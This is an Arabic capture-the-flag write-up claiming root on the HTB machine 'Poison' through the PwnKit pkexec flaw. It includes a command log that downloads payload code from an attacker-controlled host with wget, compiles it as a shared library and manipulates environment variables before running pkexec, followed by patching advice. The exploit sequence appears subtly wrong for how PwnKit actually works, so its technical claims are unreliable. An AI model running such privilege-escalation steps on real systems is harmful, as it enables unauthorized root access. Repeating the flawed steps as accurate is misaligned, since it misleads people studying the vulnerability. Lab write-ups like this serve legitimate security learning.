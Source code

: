 # 🕷️ تقرير BugVex الأمني - تصعيد الصلاحيات في HTB "Poison"

## الملخص  
أثناء استكشاف آلة *Poison* من HTB، كنت أبحث في البداية عن صلاحيات sudo الضعيفة أو ملفات setuid.  
لكن بعد تشغيل أداة LinPEAS، ظهر شيء أكثر إثارة: نسخة قديمة من `pkexec`.  
من خلال خبرتي السابقة، عرفت فورًا أنها الثغرة المعروفة باسم **PwnKit** (**CVE-2021-4034**).  
استغلال هذه الثغرة يسمح بتصعيد الصلاحيات إلى root عبر التلاعب بمتغيرات البيئة.

---

## الأدوات المستخدمة  
1. **Nmap** – لاكتشاف الخدمات والمنافذ المفتوحة على الهدف  
2. **Gobuster** – لاكتشاف الأدلة (directories) المخفية باستخدام brute-force  
3. **Burp Suite** – لاعتراض وتحليل طلبات HTTP الخاصة برفع الملفات  
4. **LinPEAS** – كشف أن `pkexec` قد يكون مدخلًا لتصعيد الصلاحيات  
5. **GCC** – لتجميع الحمولة الخبيثة (payload) بصيغة shared object  
6. **Payload مخصص** – مكتبة مشتركة صُمّمت لتصعيد الصلاحيات  
7. **GDB** – استُخدمت بشكل بسيط لمراقبة سلوك البرنامج

---

## سجل الأوامر
```bash
$ nmap -sC -sV -oA scan 10.10.10.84
$ gobuster dir -u http://10.10.10.84 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
$ ssh poison@10.10.10.84
$ wget http://10.10.14.10/payload.c
$ gcc payload.c -o payload.so -shared -fPIC
$ mkdir exploit && mv payload.so exploit/
$ echo 'module UTF-8// POC// payload 2' > exploit/gconv-modules
$ export GIO_USE_VFS=local
$ export PATH=./exploit:$PATH
$ export LD_PRELOAD=./exploit/payload.so
$ export GCONV_PATH=./exploit
$ export CHARSET=POC
$ pkexec
```

---

## الاستنتاج  
الاستغلال تم بنجاح، حيث حصلت على shell بصلاحيات root بدون الحاجة لأي تدخل من المستخدم.  
تبقى **PwnKit** ثغرة خطيرة خصوصًا إذا لم يتم تصحيحها، سواء في تحديات CTF أو في بيئات العالم الحقيقي.  
كانت هذه تجربة ممتعة وأكدت لي أهمية الانتباه لمسارات تصعيد الصلاحيات — حتى القديمة منها.

---

## التوصيات  
- ترقية `pkexec` إلى إصدار مصحح (≥ 0.105)  
- تقييد الوصول إلى أدوات التجميع والبرامج الخطيرة  
- استخدام AppArmor أو SELinux لعزل الصلاحيات  
- مراقبة متغيرات البيئة لكشف أي نشاط غير اعتيادي

---

*تقرير من إعداد **BugVex*** 🕷️
